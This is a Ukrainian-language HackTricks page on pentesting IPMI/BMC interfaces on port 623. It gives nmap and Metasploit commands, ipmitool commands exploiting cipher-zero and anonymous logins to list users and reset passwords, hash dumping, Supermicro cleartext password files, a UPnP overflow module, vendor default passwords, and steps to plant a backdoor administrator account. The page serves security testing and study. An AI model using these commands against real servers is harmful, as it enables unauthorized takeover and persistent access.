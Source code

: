 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>

## Базова інформація

### **Огляд IPMI**

**[Інтерфейс управління платформою Inteligent (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** пропонує стандартизований підхід до віддаленого управління та моніторингу комп'ютерних систем, незалежно від операційної системи або стану живлення. Ця технологія дозволяє системним адміністраторам управляти системами віддалено, навіть коли вони вимкнені або не реагують, і особливо корисна для:

- Конфігурацій перед завантаженням ОС
- Управління вимкненням живлення
- Відновлення після відмови системи

IPMI може відслідковувати температури, напруги, швидкості вентиляторів та джерела живлення, а також надавати інформацію про інвентар, переглядати журнали обладнання та надсилати сповіщення через SNMP. Для його роботи необхідні джерело живлення та підключення до ЛВС.

Починаючи з 1998 року, IPMI був підтриманий численними виробниками, покращуючи можливості віддаленого управління, особливо з підтримкою версії 2.0 для серійного зв'язку через ЛВС. Ключові компоненти включають:

- **Контролер керування платою (BMC):** Основний мікроконтролер для операцій IPMI.
- **Шини та інтерфейси зв'язку:** Для внутрішнього та зовнішнього зв'язку, включаючи ICMB, IPMB та різні інтерфейси для локальних та мережевих підключень.
- **Пам'ять IPMI:** Для зберігання журналів та даних.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Порт за замовчуванням**: 623/UDP/TCP (Зазвичай використовується UDP, але також може працювати на TCP)

## Перелік

### Відкриття
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Ви можете **ідентифікувати** **версію** за допомогою:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### Вразливості IPMI

У світі IPMI 2.0 була виявлена значна вразливість безпеки Деном Фармером, яка виявляє вразливість через **тип шифрування 0**. Цю вразливість, детально задокументовану в [дослідженні Дена Фармера](http://fish2.com/ipmi/cipherzero.html), дозволяє несанкціонований доступ з будь-яким паролем, якщо цільовим є дійсний користувач. Ця слабкість була виявлена в різних BMC від виробників, таких як HP, Dell та Supermicro, що свідчить про поширену проблему у всіх реалізаціях IPMI 2.0.

### **Обхід аутентифікації IPMI через шифр 0**

Для виявлення цієї вразливості можна використати наступний допоміжний сканер Metasploit:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Експлуатація цієї уразливості можлива за допомогою `ipmitool`, як показано нижче, що дозволяє отримувати список та змінювати паролі користувачів:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **Отримання віддаленого хешу пароля за допомогою аутентифікації IPMI 2.0 RAKP**

Ця уразливість дозволяє отримати захешовані паролі з сіллю (MD5 та SHA1) для будь-якого існуючого імені користувача. Для тестування цієї уразливості Metasploit пропонує модуль:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **Анонімна аутентифікація IPMI**

Стандартна конфігурація в багатьох BMC дозволяє "анонімний" доступ, що характеризується порожніми рядками для імені користувача та пароля. Цю конфігурацію можна використовувати для скидання паролів користувачів за допомогою `ipmitool`:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Чіткі паролі IPMI Supermicro**

Критичний вибір дизайну в IPMI 2.0 передбачає зберігання чітких паролів у BMC для автентифікації. Зберігання Supermicro цих паролів у місцях, таких як `/nv/PSBlock` або `/nv/PSStore`, викликає серйозні проблеми з безпекою:
```bash
cat /nv/PSBlock
```
### **Вразливість Supermicro IPMI UPnP**

Включення Supermicro UPnP SSDP слухача в його прошивку IPMI, зокрема на UDP порт 1900, вносить серйозний ризик безпеки. Вразливості в Intel SDK для UPnP пристроїв версії 1.3.1, які детально описані в [розкритті Rapid7](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), дозволяють отримати root доступ до BMC:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Брутфорс

**HP рандомізує пароль за замовчуванням** для свого продукту **Integrated Lights Out (iLO)** під час виробництва. Ця практика відрізняється від інших виробників, які зазвичай використовують **статичні облікові дані за замовчуванням**. Нижче наведено узагальнення облікових даних за замовчуванням для різних продуктів:

- **HP Integrated Lights Out (iLO)** використовує **фабричний рандомізований рядок з 8 символів** як пароль за замовчуванням, що показує вищий рівень безпеки.
- Продукти, такі як **Dell's iDRAC, IBM's IMM** та **Fujitsu's Integrated Remote Management Controller**, використовують легко вгадувані паролі, такі як "calvin", "PASSW0RD" (з нулем) та "admin" відповідно.
- Так само, **Supermicro IPMI (2.0), Oracle/Sun ILOM** та **ASUS iKVM BMC** також використовують прості облікові дані за замовчуванням, де "ADMIN", "changeme" та "admin" слугують їх паролями.


## Доступ до Хоста через BMC

Адміністративний доступ до контролера базової плати (BMC) відкриває різні шляхи для доступу до операційної системи хоста. Простий підхід полягає в експлуатації функціональності клавіатури, відео та миші (KVM) BMC. Це можна зробити шляхом перезавантаження хоста до кореневої оболонки через GRUB (використовуючи `init=/bin/sh`) або завантаження з віртуального CD-ROM, встановленого як диск для відновлення. Такі методи дозволяють безпосередньо маніпулювати диском хоста, включаючи вставлення задніх дверей, вилучення даних або будь-які необхідні дії для оцінки безпеки. Однак це вимагає перезавантаження хоста, що є значним недоліком. Без перезавантаження доступ до працюючого хоста складніший і залежить від конфігурації хоста. Якщо фізична або послідовна консоль хоста залишається увімкненою, її легко можна захопити через функціональності BMC KVM або послідовного доступу через LAN (sol) за допомогою `ipmitool`. Дослідження експлуатації спільних апаратних ресурсів, таких як шина i2c та чіп Super I/O, є областю, яка потребує подальших досліджень.

## Введення задніх дверей в BMC з Хоста

Після компрометації хоста з BMC, **локальний інтерфейс BMC може бути використаний для вставлення облікового запису задніх дверей**, створюючи постійну присутність на сервері. Цей атака потребує наявності **`ipmitool`** на скомпрометованому хості та активації підтримки драйвера BMC. Наведені команди ілюструють, як новий обліковий запис може бути внесений в BMC за допомогою локального інтерфейсу хоста, що обходить потребу в аутентифікації. Ця техніка застосовна до широкого спектру операційних систем, включаючи Linux, Windows, BSD та навіть DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `порт:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)
